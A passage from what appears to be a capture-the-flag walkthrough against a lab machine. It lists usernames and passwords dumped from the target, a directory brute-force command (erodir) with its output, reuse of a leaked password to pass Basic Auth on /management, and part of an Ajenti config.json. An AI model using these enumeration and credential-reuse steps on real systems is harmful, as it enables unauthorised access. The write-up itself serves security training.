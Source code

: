 ```
{"name":"Derry","password":"rZ86wwLvx7jUxtch"}
{"name":"Yuri","password":"bet@tester87"}
{"name":"Dory","password":"5y:!xa=ybfe)/QD"}
```
Interestingly the admin password returned is different to the one we used to authenticate.

At this point it took a moment to figure out next steps.. the credentials did not work on any of the login screens we have encountered so far, nor did they work against SSH or FTP. So we went back to the drawing board and re-scanned the website, this time trying a new tool called erodir (https://github.com/PinkP4nther/EroDir)

By default EroDir happens to include 401 responses as a valid response code which leads us to a folder we had not seen yet:
```
root@kali: erodir -u http://10.10.10.137 -e /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
+-=[ EroDir v1.7 ]=-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
+-=[ @Pink_P4nther ]=-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
[+] Target: 		[http://10.10.10.137/]
[+] Entry List: 	[/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt]
[+] Timeout: 		[5]
[+] HTTP codes: 	[200,301,302,401,403]
[+] Threads: 		[50]
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
[*] Reading lines..
[*] Bruteforcing 220560 entries!
[*] Threads Built: 50
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
  => http://10.10.10.137/member (Status: 301)
  => http://10.10.10.137/css (Status: 301)
  => http://10.10.10.137/management (Status: 401)
  => http://10.10.10.137/js (Status: 301)
  => http://10.10.10.137/vendor (Status: 301)
  => http://10.10.10.137/LICENSE (Status: 200)
```

Hitting `/management` prompts us for Basic Auth, finally we are able to use `Derry:rZ86wwLvx7jUxtch` to log in.

We are presented with 3 files. config.php looks to be the same as the one we have already seen, login.php provides a different login page to the previous one and config.json shares some interesting information about the Ajenti software installed on port 8000.
```
config.json:

{
    "users": {
        "root": {
            "configs": {
                "ajenti.plugins.notepad.notepad.Notepad": "{\"bookmarks\": [], \"root\": \"/\"}", 
                "ajenti.plugins.terminal.main.Terminals": "{\"shell\": \"sh -c $SHELL || sh\"}", 
                "ajenti.plugins.elements.ipmap.ElementsIPMapper": "{\"users\": {}}", 
                "ajenti.plugins.munin.client.MuninClient": "{\"username\": \"username\", \"prefix\": \"http://localhost:8080/munin\", \"password\": \"123\"}", 
                "ajenti.plugins.dashboard.dash.Dash": "{\"widgets\": [{\"index\": 0, \"config\": null, \"container\": \"1\", \"class\": \"ajenti.plugins.sensors.memory.MemoryWidget\"}, {\"index\": 1, \"config\": null, \"container\": \"1\", \"class\": \"ajenti.plugins.sensors.memory.SwapWidget\"}, {\"index\": 2, \"config\": null, \"container\": \"1\", \"class\": \"ajenti.plugins.dashboard.welcome.WelcomeWidget\"}, {\"index\": 0, \"config\": null, \"container\": \"0\", \"class\": \"ajenti.plugins.sensors.uptime.UptimeWidget\"}, {\"index\": 1, \"config\": null, \"container\": \"0\", \"class\": \"ajenti.plugins.power.power.PowerWidget\"}, {\"index\": 2, \"config\": null, \"container\": \"0\", \"class\": \"ajenti.plugins.sensors.cpu.CPUWidget\"}]}", 
                "ajenti.plugins.elements.shaper.main.Shaper": "{\"rules\": []}", 
```
